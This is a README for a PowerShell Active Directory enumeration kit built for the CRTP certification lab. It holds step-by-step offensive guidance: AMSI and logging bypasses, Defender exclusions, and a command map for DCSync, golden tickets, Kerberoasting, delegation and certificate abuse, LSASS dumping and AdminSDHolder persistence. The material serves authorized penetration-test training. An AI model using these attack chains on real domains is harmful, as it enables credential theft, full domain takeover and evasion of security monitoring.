

# CRTP Enumeration Kit

`Invoke-CRTPEnum.ps1` — one-shot, read-only AD recon for the CRTP lab.
It writes a ranked `00_SUMMARY.txt` (HIGH / MED / INFO), per-section dumps, an
`EXPLOIT_COMMANDS.txt` with the exact command for each finding, a phase playbook, and
ends every run with a single **RECOMMENDED NEXT MOVE** — so you spend exam time
exploiting, not typing recon one-liners.

**Zero dependencies.** Just the one `.ps1` file runs anywhere via raw LDAP — and the
raw-LDAP path is at **full parity** with the AD-module path (same findings either way).
RSAT / the standalone AD module DLL / PowerView / PowerUp only *add* depth or speed.
New here? Read **`Start-Here.txt`** for the exact launch sequence.

> **It's a companion, not a magic button.** It finds and ranks targets and writes the
> commands; *you* run the exploitation steps. Read-only and safe to re-run every hop.

> **CRTP exam notes:** goal = OS command execution on all 5 targets (+ the DC flag at
> `C:\Users\finadmin\Desktop\finalflag.txt`); prefer **SafetyKatz** for OverPass-the-Hash
> (Rubeus was flaky); no dictionary brute-force is required; run BloodHound's collector in
> the lab and its GUI on your host. **The report must be in your own words** — this tool's
> output is a doing aid, not report text (AI-generated report content is rejected).

---

## How it works (in plain words)

If you've never touched AD attacks, here's the whole idea in 6 steps:

1. **You load your tools** in a stealthy shell (InviShell), then run the script and point it at a domain.
2. **It checks it can reach a Domain Controller** (if not — e.g. you gave it a website — it says so and stops the AD part).
3. **It asks "who am I?"** — your account, privileges, and admin rights on this machine.
4. **It quietly queries the domain** over LDAP — users, computers, groups, delegation, ACLs, GPOs, trusts, certificate services, and where the passwords/secrets are.
5. **It ranks what it found** (HIGH → do first, MED, INFO) and writes it to files, including the exact command to attack each finding.
6. **It tells you the single best next move.** You run that command, get new access, and **re-run the script as the new user** — repeat until you own the domain.

### The flow (diagram)



> The diagram renders automatically on the GitHub page. The dashed **"-HostSweep"** branch
> is the only part that touches other computers — everything else is quiet LDAP.

### The core loop

```
enumerate  ->  read RECOMMENDED NEXT MOVE  ->  run its command (EXPLOIT_COMMANDS.txt)
    ^                                                        |
    |________  re-run as the new user/creds  <______________|
```

---

### Noise posture (important)

- **Default = QUIET.** Only LDAP + local-host checks run — normal-looking AD traffic,
  no connections to other computers.
- **Host-touching sweeps are OFF by default** — local-admin (`Find-LocalAdminAccess`),
  share hunt (`Find-DomainShare`), and session hunt (`Invoke-SessionHunter`) each fan
  out to *every* computer in the domain (the classic mass-SMB/WMI pattern a blue team
  alerts on). Enable them only when you accept the noise:
  - `-HostSweep` — run them domain-wide (loudest)
  - `-Target <host>` — scope them to one box (quiet-ish, ideal per-hop)
- **Other loud/active options are opt-in too:** `-Roast` (Rubeus, 4769 events),
  `-BloodHound`, `-SharpEnum`, `-WinPEASPath`, `-SQLCrawl`.
- **AMSI / Defender note:** this script embeds tool command *strings* (mimikatz,
  kerberoast, dcsync…) in its `EXPLOIT_COMMANDS` output, so Defender real-time
  protection may **quarantine/delete the file the moment you dot-source it**. Load it
  inside an InviShell shell, after your AMSI bypass, or add a Defender exclusion for your
  tools folder — like your other offensive `.ps1` files. Syntax-checking is always safe
  (no execution): `[System.Management.Automation.Language.Parser]::ParseFile('.\Invoke-CRTPEnum.ps1',[ref]$null,[ref]$null)`.

---

## 0. Load your tools in a fresh shell (order matters)

```powershell
# 1) In-memory bypass FIRST (you already have these in D:\CRTP\Tools)
#    Amsi-Byp.txt        -> AMSI bypass
#    sbloggingbypass.txt -> ScriptBlock/ETW logging bypass
#    Run BOTH before importing anything, so imports aren't flagged or logged.
# 2) Then import your offensive modules (each one you load adds depth to the enum)
Import-Module .\PowerView.ps1          # -> ACL, local-admin, share sections
Import-Module .\PowerUp.ps1            # -> local privesc + cached GPP
Import-Module .\PowerHuntShares.psm1   # -> alt share hunt
. .\Invoke-SessionHunter.ps1           # -> section 14 attack-path correlation
Import-Module .\PowerUpSQL.ps1         # -> section 18 MSSQL link crawl (with -SQLCrawl)
. .\Invoke-CRTPEnum.ps1
```

> Loading **PowerView** also unlocks sections 16 (cross-trust) and 17 (GPO local-admin
> mapping) — both pure-LDAP and low-noise, so they run on a normal (non-`-Quick`) pass.

**No RSAT? No admin?** The script auto-loads the standalone AD module DLL
(`Microsoft.ActiveDirectory.Management.dll`) so real AD cmdlets work anywhere.
It looks next to the script, then at `D:\CRTP\Tools\ADModule-master\`, or pass it:

```powershell
Invoke-CRTPEnum -ADModulePath 'D:\CRTP\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll'
```

If it still can't load, the script falls back to raw LDAP automatically — it always runs.

### Reading section 14 (the money section)

`14_attack_paths.txt` answers one question: **which box do I dump next?**

- A **HIGH / "GO HERE"** line = you already have local admin on that host **and** a
  privileged user (Domain/Enterprise Admin, or `adminCount=1`) has a live session
  there. Dump LSASS (`FindLSASSPID.exe` → `minidumpdotnet.exe`) and steal their creds/TGT.
- A **MED** line = a privileged user is logged on, but you are **not** admin there yet —
  get local admin first (section 13 privesc, or another lateral path), then come back.

> Note: section 14 runs `Invoke-SessionHunter -CheckAsAdmin`, which can take a
> minute on a large lab. Use `-Quick` to skip it (and sections 7/8/12) for a fast pass.

> `Invoke-CRTPEnum` needs NO bypass and NO extra module to run — it uses the AD
> module or raw LDAP. Loading PowerView / PowerUp / PowerHuntShares first just
> lights up the ACL, local-admin, share, and local-privesc sections.

---

## 1. Run the enumeration

```powershell
. .\Invoke-CRTPEnum.ps1
Invoke-CRTPEnum                                  # current domain, full sweep
Invoke-CRTPEnum -Domain dollarcorp.moneycorp.local
Invoke-CRTPEnum -OutDir C:\Users\Public\loot     # writable path on a foothold
Invoke-CRTPEnum -Quick                           # skip slow ACL/local-admin sweeps
Invoke-CRTPEnum -IncludeForest                   # also touch trusted domains
Invoke-CRTPEnum -Target dcorp-appsrv -Quick      # fast re-run scoped to one new foothold
Invoke-CRTPEnum -WinPEASPath C:\Tools\winPEASx64.exe   # opt-in deep local triage (LOUD)
Invoke-CRTPEnum -Json                            # also write findings.json (for the cheatsheet / tooling)
Invoke-CRTPEnum -Zip                             # also zip the whole run folder
Invoke-CRTPEnum -OwnedPrincipals studvm$,techservice   # flag ACL/RBCD findings YOU can act on
```

**`-OwnedPrincipals`** — give it the accounts/computers you already control. The script
then highlights the ACL and RBCD findings those principals can act on *right now*
(e.g. "`studvm$` can configure RBCD on MGMTSRV", "`techservice` has ForceChangePassword
over puretech") and floats them to the top of the recommended next move.

**`-Target`** filters the host-centric sections (computers, shares, sessions) to the
box(es) you name — run it on each new foothold for a quick pass instead of
re-sweeping the whole domain every hop.

**`-Only` / `-Skip`** target or exclude sections by keyword (default = run everything):
`-Only kerberoast,asrep,acls` runs just those leads; `-Skip gpo,spns` runs all but those.
`-Skip` wins over `-Only`. Skipped sections don't query at all (so it's also faster).
Keywords: `context token creds dpapi cmdkey domain trust forest users kerberoast asrep
delegation secrets computers rbcd maq groups gpo cpassword adcs esc policy spray dcsync
laps acls spns mssql privesc local gmsa`. This is the safe version of "only enumerate specific things" — a
*choice*, not an auto-skip that could hide new access on a re-run.

**`-Credential`** enumerates the directory **as a captured user** through the built-in
LDAP engine — no shell needed. After you loot a hash/password, either spawn a shell as
that user (`runas /netonly` or Rubeus overpass-the-hash) and re-run, or hand the creds
straight in: `-Credential $cred`. See the "AFTER LOCAL PRIVESC" section in `Start-Here.txt`
for the full post-privesc loop. (PowerView/host-sweep/local sections still use the current
token — for those as another user, use the runas/PTT shell.)

**`-WinPEASPath`** (opt-in) runs winPEAS for deep *local* privesc triage and drops
its output in `13b_winpeas.txt`, surfacing its interesting hits into the summary.
It overlaps section 13 (PowerUp/PrivEscCheck) but goes wider on creds-on-disk.
It's **loud and AV-signatured**, so it only runs when you explicitly pass the path —
never as part of a normal quiet sweep.

**`-Json`** also writes `findings.json` — a machine-readable file with the discovered
values (`domainSid`/`parent`/`forest`/`dc`), severity counts, the ranked findings, and
the exploitable entries. Built to import into the CRTP cheatsheet's "My Values" panel
or any other tooling.

**`-Zip`** also archives the whole run folder to `<run>.zip` for easy transfer/reporting.

Read `00_SUMMARY.txt` top-down. Everything under **HIGH** is a direct lead, and the
bottom line — **`>>> RECOMMENDED NEXT MOVE`** — names the single highest-value action
(and its target) so you always know what to investigate next.

**Views of the results:**
- `00_SUMMARY.txt` — ranked, per-run, with a finding→action cheat at the bottom.
- `00_SUMMARY.html` — same, color-coded (open in a browser; nice for the exam report).
- **`EXPLOIT_COMMANDS.txt`** — for every finding, the **exact command pre-filled with
  the discovered values** (user, SPN, host, CA, cpassword path…). Copy → fill the
  `<placeholders>` → run with your own tools. This is the time-saver.
- **`CRTP-Playbook.txt`** — the **whole-exam guide**, phase 0→8 (foothold → local privesc →
  domain recon → creds → domain privesc → DA/DC → child→parent SID-history → cross-forest
  trust → persistence), pre-filled with your domain name, SID, and DC. Covers the manual
  ticket-forging / cross-trust / persistence scenarios the script does *not* auto-run.
- **`ATTACK_CHAIN.txt`** — **the route to Enterprise Admin, built from THIS run's findings.**
  Two parts: (1) an ordered route (local→SYSTEM → domain cred → domain privesc → DA/krbtgt →
  child→parent EA → cross-forest) that lists **every path per phase — PRIMARY + ALT#2/#3 —**
  so if one is a **honeypot/decoy or dead end you fall back to an ALT**; and (2) **per-finding
  fast chains**: each finding as a `1) 2) 3) => WIN` command sequence straight to a flag. Steps
  with no finding show as `[GAP]` so you see exactly which link you still need.
- `_MASTER_findings.txt` (in `-OutDir`) — **accumulates HIGH+MED across every run, deduped.**
  Re-run after each lateral move and this file grows into your full attack log —
  no diffing folders.
- `NEW_this_run.txt` — **the delta:** only the findings this run surfaced that weren't
  seen in any prior run. Re-run as a new identity (new creds / privesc) and this file
  shows *exactly the new access that identity gained* — so you're never re-reading the
  same findings, just what changed. (Console also prints the top NEW items.)
- `_INDEX.txt` — lists every section file with a one-line description and a `*`
  marker for the ones that actually have data, so you know what to open first.
- **`_ALL.txt`** — **everything in ONE file:** every section dump merged in logical
  order (summary → exploit commands → playbook → all raw sections). Open this if you
  want a single scrollable/greppable file instead of 20+ separate ones.
- `findings.json` (with `-Json`) — machine-readable values + findings for the cheatsheet
  importer / other tooling.
- `<run>.zip` (with `-Zip`) — the whole run folder archived.

---

## 1b. Command recipes (copy-paste)

**Step 1 — always do this first** (in your InviShell shell, after AMSI/logging bypass):

```powershell
# load modules so every section lights up (adjust paths to your tools)
Import-Module D:\CRTP\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module D:\CRTP\Tools\PowerView.ps1
Import-Module D:\CRTP\Tools\PowerUp.ps1
Import-Module D:\CRTP\Tools\PowerHuntShares.psm1
. D:\CRTP\Tools\Invoke-SessionHunter.ps1
. D:\CRTP\Tools\Invoke-EDRChecker.ps1
Import-Module D:\CRTP\Tools\PowerUpSQL-master\PowerUpSQL.psd1
```

**Step 2 — pick the recipe you need:**

<details open><summary><b>A · Quiet first look (default, low-noise)</b></summary>

Normal-looking LDAP only; no host-touching. Great as the first pass on any foothold.
```powershell
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot
```
</details>

<details><summary><b>B · FULL SCAN — everything, all data (LOUD, slow)</b></summary>

Every section + all opt-in tools + both extra outputs. For the CRTP lab (no blue team).
```powershell
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot -HostSweep -IncludeForest -Roast -BloodHound -SQLCrawl -SharpEnum -Json -Zip
```
Add the deepest local triage (winPEAS) for the absolute maximum:
```powershell
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot -HostSweep -IncludeForest -Roast -BloodHound -SQLCrawl -SharpEnum -WinPEASPath D:\CRTP\Tools\Sliver\winPEAS-obfuscated.exe -Json -Zip
```
</details>

<details><summary><b>C · Per-hop re-run, scoped to one new box (quiet-ish)</b></summary>

After you land on a new host — host checks limited to that box instead of the whole domain.
```powershell
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot -Target dcorp-appsrv
```
</details>

<details><summary><b>D · Enumerate AS a captured user (no shell needed)</b></summary>

After you loot a password/hash — query the directory as that user via the LDAP engine.
```powershell
$sec  = ConvertTo-SecureString 'Password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('dcorp\studentx',$sec)
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot -Credential $cred
```
(For host-sweep / module sections as another user, launch a `runas /netonly` or pass-the-ticket shell and re-run instead.)
</details>

<details><summary><b>E · Focus on specific things only</b></summary>

Run just the sections you want (fast, targeted). Keywords are listed under `-Only` below.
```powershell
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot -Only kerberoast,asrep,acls,dcsync
```
</details>

<details><summary><b>F · Roast + BloodHound only (grab hashes + graph)</b></summary>

```powershell
.\Invoke-CRTPEnum.ps1 -Domain dollarcorp.moneycorp.local -OutDir C:\Users\Public\loot -Roast -BloodHound -Json
```
</details>

**Step 3 — read the output** (in `C:\Users\Public\loot\CRTPEnum_*\`), in this order:
`00_SUMMARY.txt` → `EXPLOIT_COMMANDS.txt` → `CRTP-Playbook.txt`, and the `>>> RECOMMENDED NEXT MOVE` line.

**Step 4 — the loop:** run the recommended command → get new creds/access → become that identity (`runas /netonly` or pass-the-ticket) → **re-run** → check `NEW_this_run.txt`. Repeat to Domain Admin.

> ⚠️ Recipe **B** is loud (host sweeps + Kerberos 4769 + compiled binaries) — fine for the CRTP lab, not for a monitored network. Recipe **A** is the quiet one.

---

## 2. What it flags (and where to look)

| Section | File | Finds |
|--------|------|-------|
| Current context | `00_context` | Your token: SeImpersonate/SeBackup/SeDebug (→ potato/dump), privileged group membership + **netonly/no-domain-context detection** (reminds you to pass `-Server`/`-dc`) |
| EDR/AV | `00b_edr` | Defensive products on this host (needs Invoke-EDRChecker) |
| **Saved creds** | `00c_saved_creds` | **Credential Manager / `cmdkey` saved creds (e.g. RDP "remember me") + DPAPI credential/vault blobs** → points at `mimikatz dpapi::cred` |
| Domain/Trusts | `01_` | DCs, trust direction, SID-filtering state + **cross-forest playbook** (trust-key → referral → leaked-cert PKINIT) |
| Users | `02_`, `02a`, `02b` | Kerberoastable (RC4/AES + `adminCount` priority), AS-REP, no-preauth, PASSWD_NOTREQD, desc/info secrets, delegation, **protocol transition**, **SID history**, adminCount |
| Computers | `03_` | Unconstrained/constrained delegation, RBCD (already-set **and** **"RBCD attack available"** — a principal you/low-priv can write → configure it yourself), **protocol transition**, MachineAccountQuota, legacy OS |
| Priv groups | `04_` | DA/EA/Admins/DnsAdmins/… recursive membership + **AdminSDHolder write rights** + **Protected/operator-group abuse** (Account/Backup/Server/Print Operators, DnsAdmins → SYSTEM/DA, flagged HIGH if your token is a member) |
| GPO | `05_` | GPO list + auto SYSVOL `cpassword` scan + **GPO edit rights** |
| AD CS | `06_` | Enterprise CA + **ESC1/2/3/9/13/14/15 template auto-detect (pure LDAP, no Certify)**, per-template enrollment ACLs, HIGH when an owned/low-priv principal can enrol (the ESC3 agent+on-behalf-of pair) |
| Password policy | `06b_` | minLen / lockout → tells you if spraying is safe |
| DCSync rights | `06c_` | Non-default principals with replication rights (→ dcsync) + **krbtgt password age** (golden-ticket viability) |
| LAPS | `06d_` | Local-admin passwords you can read **+ who else is delegated read** |
| ACLs | `07_` | GenericAll/WriteDacl/WriteOwner (needs PowerView); with `-OwnedPrincipals`, tags the ones **you control** as directly actionable (+ LDAP fallback) |
| Local admin | `08_` | Hosts where you are local admin (needs PowerView) |
| SPNs/MSSQL | `09_`,`10_` | Service inventory + MSSQL link-crawl targets |
| Trusted domains | `11_` | (`-IncludeForest`) recon across each trust |
| Shares | `12_` | Readable/writable shares + interesting files (PowerView, else PowerHuntShares) |
| Local privesc | `13_` | PowerUp `Invoke-PrivescAudit` + cached GPP (else PrivEscCheck) |
| **Attack paths** | `14_` | **Where you're local admin AND a DA/EA/adminCount user is logged on** (needs Invoke-SessionHunter) |
| gMSA | `15_` | Group MSAs + whether **you** can read their password (ReadGMSAPassword) |
| Cross-trust | `16_` | Foreign group members / users + trust map (needs PowerView) |
| GPO local admin | `17_` | "Who is admin where" via Restricted Groups — pure LDAP (needs PowerView) |
| MSSQL crawl | `18_` | `-SQLCrawl`: PowerUpSQL instance discovery + link crawl |
| BloodHound | `19_` | `-BloodHound -SharpHoundPath`: SharpHound (.ps1 or .exe) DCOnly → zip |
| Kerberoast | `20_` | `-Roast -RubeusPath`: Rubeus kerberoast + asreproast → hash files |
| SharpEnum | `21_` | `-SharpEnum`: ADCollector + Seatbelt + SharpUp (compiled, from `-ToolsDir`) |

---

## 3. Finding → action map

```text
Token priv    SeImpersonate -> PrintSpoofer/GodPotato -> SYSTEM;  SeBackup -> read SAM/NTDS.dit;  SeDebug -> dump LSASS
DCSync rights secretsdump / Invoke-Mimi lsadump::dcsync /user:krbtgt  (then golden ticket)
LAPS readable use the plaintext local-admin password straight from 06d_laps.txt
Password spray only if 06b lockoutThreshold=0 (or stay under it): one common pwd across all users
Kerberoast    Rubeus.exe kerberoast /outfile:hashes.txt      -> hashcat -m 13100
AS-REP roast  Rubeus.exe asreproast /format:hashcat          -> hashcat -m 18200
Unconstrained capture TGTs (Rubeus monitor/triage) + coerce a DC:
              MS-RPRN.exe | WSPCoerce.exe | DFSCoerce-andrea.exe  <listener> <victim-DC>
Constrained   Rubeus.exe s4u /user: /rc4: /impersonateuser:administrator /msdsspn: /ptt
RBCD / MAQ>0  Get-RBCD-Threaded.exe / add machine acct -> set msDS-AllowedToActOnBehalfOfOtherIdentity -> Rubeus s4u
RBCD-write    you can write a computer obj -> Set-ADComputer -PrincipalsAllowedToDelegateToAccount -> Rubeus s4u as a DA
AD CS ESC1    Certify.exe request /template:<vuln> /altname:administrator -> Rubeus asktgt /certificate
AD CS ESC3    Certify request /template:<agent> -> request /template:<target> /onbehalfof:<DA> /enrollcert:agent.pfx -> Rubeus asktgt /certificate
Saved cred    mimikatz sekurlsa::dpapi ; dpapi::cred /in:%localappdata%\Microsoft\Credentials\<blob>  (recovers saved RDP/creds)
Cross-forest  (after DA) lsadump::trust /patch -> kerberos::golden /service:krbtgt /target:<forest> -> if SID-filtered, grab a leaked cert on their shares -> PKINIT
gMSA readable read msDS-ManagedPassword (GMSAPasswordReader) -> use NTLM with Rubeus /rc4
SID history   investigate the injected/foreign SID (existing cross-domain path or persistence)
AdminSDHolder if you can write it -> add yourself; SDProp re-applies to protected groups = persistent DA
Dangerous ACL reset pwd / add-to-group / targeted Kerberoast via the abused right
Local privesc PowerUp Invoke-PrivescAudit -> Invoke-ServiceAbuse; or Invoke-PrivescCheck
Shares        loot creds/configs from readable shares; RACE.ps1 to plant ACL backdoors post-DA
LSASS dump    FindLSASSPID.exe -> minidumpdotnet.exe <pid> out.dmp  (or mini.ps1 remote)
GPP cpassword gpp-decrypt <cpassword>
Trusts        inter-realm TGT / SID-history golden ticket for cross-domain/forest
Deep paths    SharpHound -> BloodHound for shortest path to DA/EA
```

---

## 4. Your existing tools (for reference)

- **Bypass:** `Amsi-Byp.txt`, `DotNET AMSI.txt`, `sbloggingbypass.txt` (ETW/ScriptBlock)
- **Domain recon:** `PowerView.ps1`
- **Local privesc:** `PowerUp.ps1` (`Invoke-PrivescAudit`), `PrivEscCheck.ps1` (`Invoke-PrivescCheck`)
- **Shares:** `PowerHuntShares.psm1` (`Invoke-HuntSMBShares`)
- **Local admin:** `Find-WMILocalAdminAccess.ps1`, `Find-PSRemotingLocalAdminAccess.ps1` (sec 8 fallback, scope with `-Target`), `Invoke-SessionHunter.ps1`
- **OpSec recon:** `Invoke-EDRChecker.ps1` (sec 00b)
- **Not yet in your folder — add for full coverage:** `Rubeus.exe` (`-Roast`, + Kerberos exploit commands), `SharpHound.ps1`/`.exe` (`-BloodHound`), `PowerUpSQL.ps1` (`-SQLCrawl`). You already have `Certify.exe` for AD CS.
- **Creds/dump:** `Invoke-Mimi.ps1`, `Invoke-TheKat*.ps1`, `FindLSASSPID.exe`, `minidumpdotnet.exe/.dll`, `mini.ps1`
- **Delegation/coerce:** `Get-RBCD-Threaded.exe`, `MS-RPRN.exe`, `WSPCoerce.exe`, `DFSCoerce-andrea.exe`
- **ACL backdoors / persistence:** `RACE.ps1` (`Set-ADACL`, `Add-RemoteRegBackdoor`, etc.)
- **AD CS:** `Certify.exe`
- **Recon/OpSec:** `Invoke-EDRChecker.ps1`, `ByteToLineNumber.ps1`
- **Shells / exec:** `Invoke-PowerShellTcp.ps1`, `Reverse.exe`, `WSManWinRM.exe`

> Scope note: these are for the authorized CRTP lab / your own AD only.

---

## 5. Status / limits (honest)

- **Read-only.** It does not modify AD, touch AMSI, or run any offensive binary on its
  own. It locates + ranks targets, writes the commands, and names the next move — *you*
  run the exploitation steps.
- **Parity:** the raw-LDAP fallback now emits the same findings as the AD-module path,
  so a fresh session with nothing loaded still gets the full picture.
- **Unproven bit:** live AD-data output hasn't been validated against a real domain
  (queries are standard/correct; logic paths are tested). On first lab access, run
  `-Only users` and sanity-check the output before trusting the rest.
- **Not battle-tested at enterprise scale** (RODC / disjoint namespace / huge or
  non-English forests). Fine for CRTP's standard lab.

---
*`Invoke-CRTPEnum.ps1` is read-only: it does not modify AD, touch AMSI, or run any offensive binary. It locates targets, writes the commands, and recommends the next move.*
